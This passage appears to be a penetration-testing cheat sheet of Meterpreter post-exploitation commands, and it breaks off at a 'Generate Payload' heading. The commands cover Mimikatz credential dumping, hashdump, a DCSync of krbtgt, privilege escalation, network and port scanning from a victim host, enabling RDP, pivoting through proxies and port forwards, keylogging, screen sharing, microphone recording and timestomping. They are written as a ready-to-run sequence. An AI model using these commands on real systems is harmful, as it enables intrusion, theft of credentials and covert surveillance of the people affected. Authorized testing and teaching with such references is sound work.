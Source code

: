 ```console
meterpreter > load powershell                    // loads powershell
meterpreter > powershell_shell                   // follow-up command for load powershell
meterpreter > powershell_execute                 // execute command
meterpreter > powershell_import                  // import module
meterpreter > powershell_shell                   // shell
meterpreter > powershell_session_remove          // remove
meterpreter > powershell_execute 'Get-NetNeighbor | Where-Object -Property State -NE "Unreachable" | Select-Object -Property IPAddress'                                // network discovery
meterpreter > powershell_execute '1..254 | foreach { "<XXX.XXX.XXX>.${_}: $(Test-Connection -TimeoutSeconds 1 -Count 1 -ComputerName <XXX.XXX.XXX>.${_} -Quiet)" }'    // network scan
meterpreter > powershell_execute 'Test-NetConnection -ComputerName <RHOST> -Port 80 | Select-Object -Property RemotePort, TcpTestSucceeded'                            // port scan
meterpreter > load kiwi                          // load mimikatz
meterpreter > help kiwi                          // mimikatz help
meterpreter > kiwi_cmd                           // execute mimikatz native command
meterpreter > lsa_dump_sam                       // lsa sam dump
meterpreter > dcsync_ntlm krbtgt                 // dc sync
meterpreter > creds_all                          // dump all credentials
meterpreter > creds_msv                          // msv dump
meterpreter > creds_kerberos                     // kerberos dump
meterpreter > creds_ssp                          // ssp dump
meterpreter > creds_wdigest                      // wdigest dump
meterpreter > getprivs                           // get privileges after loading mimikatz
meterpreter > getsystem                          // gain system privileges if user is member of administrator group
meterpreter > hashdump                           // dumps all the user hashes
meterpreter > run post/windows/gather/checkvm    // check status of the target
meterpreter > run post/multi/recon/local_exploit_suggester    // checking for exploits
meterpreter > run post/windows/manage/enable_rdp              // enables rdp
meterpreter > run post/multi/manage/autoroute                 // runs autoroutes
meterpreter > run auxiliary/server/socks4a                    // runs socks4 proxy server
meterpreter > keyscan_start                                   // enabled keylogger
meterpreter > keyscan_dump                                    // showing the output
meterpreter > screenshare                                     // realtime screen sharing
meterpreter > screenshare -q 100                              // realtime screen sharing
meterpreter > record_mic                                      // recording mic output
meterpreter > timestomp                                       // modify timestamps
meterpreter > execute -f calc.exe                             // starts a program on the victim
meterpreter > portfwd add -l <LPORT> -p <RPORT> -r 127.0.0.1    // port forwarding
```

### Metasploit through Proxychains

```console
$ proxychains -q msfconsole
```

### Meterpreter Listener

#### Generate Payload
